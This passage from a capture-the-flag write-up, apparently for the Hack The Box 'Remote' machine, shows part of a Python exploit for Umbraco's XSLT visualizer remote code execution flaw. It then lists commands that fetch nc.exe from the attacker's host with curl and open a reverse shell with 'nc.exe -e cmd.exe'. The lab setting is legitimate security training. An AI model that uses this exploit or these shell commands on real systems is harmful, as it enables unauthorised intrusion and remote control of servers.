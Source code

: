 # END OF MODIFIED SECTION


# Go to vulnerable web page
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)


soup = BeautifulSoup(r3.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers)

# print(r4.text)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
{% endhighlight %}

Now, lets test it out.

{% highlight bash %}
$ python umbraco.py -u 'admin@htb.local' -p 'baconandcheese' -i http://remote.htb -c cmd.exe -a "/c whoami"
iis apppool\defaultapppool

{% endhighlight %}

With RCE on the box, we can now upload our `nc.exe` to it and establish a reverse shell.

{% highlight bash %}
$ python umbraco.py -u 'admin@htb.local' -p 'baconandcheese' -i http://remote.htb -c cmd.exe -a "/c mkdir C:\\\\tmp"

$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

$ python umbraco.py -u 'admin@htb.local' -p 'baconandcheese' -i http://remote.htb -c cmd.exe -a "/c curl http://10.10.XX.XX/nc.exe > C:\\\\tmp\\\\nc.exe"

$ nc -lvnp 1337
istening on [any] 1337 ...

$ python umbraco.py -u 'admin@htb.local' -p 'baconandcheese' -i http://remote.htb -c cmd.exe -a "/c C:\\\\tmp\\\\nc.exe -e cmd.exe 10.10.XX.XX 1337"
{% endhighlight %}
